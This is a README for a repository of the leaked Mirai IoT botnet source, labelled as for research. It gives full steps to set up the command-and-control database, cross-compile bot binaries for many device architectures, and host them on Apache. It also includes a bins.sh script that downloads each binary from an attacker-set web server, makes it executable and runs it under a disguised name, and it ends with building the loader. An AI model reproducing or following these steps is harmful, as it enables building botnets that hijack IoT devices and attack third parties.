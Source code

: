 # Mirai BotNet to Tashiro
Leaked Linux.Mirai Source Code for Research/IoT Development Purposes

Uploaded for research purposes and so we can develop IoT and such.

Modified from https://github.com/jgamblin/Mirai-Source-Code.

## Requirements
* To be able to use vi.
* Do not run in WSL.
* It is recommended that Linux be used as the operating system.

## Credits
[Anna-senpai](https://hackforums.net/showthread.php?tid=5420472)

## Disclaimer
This repository is for academic purposes, the use of this software is your
responsibility.

## Warning
The [zip file](https://www.virustotal.com/en/file/f10667215040e87dae62dd48a5405b3b1b0fe7dbbfbf790d5300f3cd54893333/analysis/1477822491/) for this repo is being identified by some AV programs as malware.  Please take caution. 

## Install

※If you are unable to install the software, please refer to the following URL for installation.

https://github.com/ruCyberPoison/-Mirai-Iot-BotNet/blob/master/TUTORIAL.txt

```
# apt-get install git gcc golang electric-fence mysql-server mysql-client
# git clone https://github.com/ware255/Mirai-Source-Code-plus.git
# cd Mirai-Source-Code-plus/scripts
# service mysql start
```
Add users to mysql.(mirai-pass should be a hard-to-crack password.)
```
# mysql -u root -p root mirai
> INSERT INTO users VALUES (NULL, 'anna-senpai', 'mirai-pass', 0, 0, 0, 0, -1, 1, 30, '');
> exit
# service mysql restart
```
Cross Compile
```
# chmod +x cross-compile.sh
# sudo ./cross-compile.sh
```
Enter "n" here.
```
Install mysql-server and mysql-client (y/n)? n
```
Edit .bashrc
```
# vi ~/.bashrc
```
Add the following string to the last line
```
export PATH=$PATH:/etc/xcompile/armv4l/bin
export PATH=$PATH:/etc/xcompile/armv5l/bin
export PATH=$PATH:/etc/xcompile/armv6l/bin
export PATH=$PATH:/etc/xcompile/i586/bin
export PATH=$PATH:/etc/xcompile/m68k/bin
export PATH=$PATH:/etc/xcompile/mips/bin
export PATH=$PATH:/etc/xcompile/mipsel/bin
export PATH=$PATH:/etc/xcompile/powerpc/bin
export PATH=$PATH:/etc/xcompile/powerpc-440fp/bin
export PATH=$PATH:/etc/xcompile/sh4/bin
export PATH=$PATH:/etc/xcompile/sparc/bin

export GOPATH=$HOME/go
```
After adding and saving, enter the following command
```
# mkdir ~/go
# source ~/.bashrc
```
Build bot and CNC
Get golang requiremnts
```
# go get github.com/go-sql-driver/mysql
# go get github.com/mattn/go-shellwords
```
In mirai folder, run build.sh script
```
# cd ../mirai
# chmod +x build.sh
# ./build.sh debug telnet
```
Install Apache2 server.
```
# cd ../mirai/debug
# sudo apt-get install apache2 -y
# service apache2 start
# cp mirai.* /var/www/html
# cd /var/www/html
# rm -fr /var/www/html/index.html
```
Check by entering localhost in a browser such as Fireforx.

When you have finished checking, copy and paste the following code and save it as bins.sh.
```
#!/bin/sh

# Edit
WEBSERVER="IP OR HOSTNAME:80"
# Stop editing now 

BINARIES="mirai.arm mirai.m68k miraint.x86 miraint.spc miraint.sh4 miraint.ppc miraint.mpsl miraint.mips miraint.arm7 miraint.arm5n miraint.arm"

for Binary in $BINARIES; do
    wget http://$WEBSERVER/$Binary -O dvrHelper
    chmod 777 dvrHelper
    ./dvrHelper
done

rm -f "
```
Restart Apache2 after saving bins.sh
```
# service apache2 restart
```
Build loader
```
# cd ../loader
# chmod +x build.sh
# ./build.sh
```
This completes the installation. :)
